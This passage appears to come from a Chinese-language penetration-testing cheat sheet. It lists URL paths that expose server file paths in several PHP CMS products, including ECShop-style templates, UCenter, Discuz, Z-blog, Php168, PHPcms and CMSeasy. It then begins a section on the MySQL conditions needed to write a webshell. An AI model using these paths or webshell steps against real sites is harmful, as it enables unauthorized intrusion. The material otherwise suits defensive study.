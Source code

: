 ```
/temp/compiled/goods_gallery.lbi.php
/temp/compiled/comments.lbi.php
/temp/compiled/myship.lbi.php
/includes/fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php
/includes/modules/cron/auto_manage.php
/includes/modules/cron/ipdel.php
```

#### Ucenter爆路径

`/ucenter/control/admin/db.php`

#### DZbbs

`/manyou/admincp.php?my_suffix=%0A%0DTOBY57`

#### Z-blog

`/admin/FCKeditor/editor/dialog/fck%5Fspellerpages/spellerpages/server%2Dscripts/spellchecker.php`

#### Php168爆路径

````
/admin/inc/hack/count.php?job=list
/admin/inc/hack/search.php?job=getcode
/admin/inc/ajax/bencandy.php?job=do
/cache/MysqlTime.txt
````

PHPcms2008-sp4
注册用户登陆后访问
`/phpcms/corpandresize/process.php?pic=../images/logo.gif`

#### CMSeasy爆网站路径漏洞

漏洞出现在menu_top.php这个文件中

```
/lib/mods/celive/menu_top.php
/lib/default/ballot_act.php
/lib/default/special_act.php
```

## 写入shell方法
### 写入条件
**导出WebShell主要条件：**

* Root数据库用户（root权限）
* 网站绝对路径（确定有写入权限）
* magic_quotes_gpc：Off（关闭）

**导出WebShell其它条件：**

* magic_quotes_gpc：开启时，会对'单引号进行转义，使其变成“\”反斜杠。
* secure_file_priv：此配置项用来完成对数据导入导出的限制，如允许导入导出到指定目录。
* file_priv：file_priv权限允许你用load_file、into outfile读和写服务器上的文件，任何被授予这个权限的用户都能读和写服务器的任何文件。

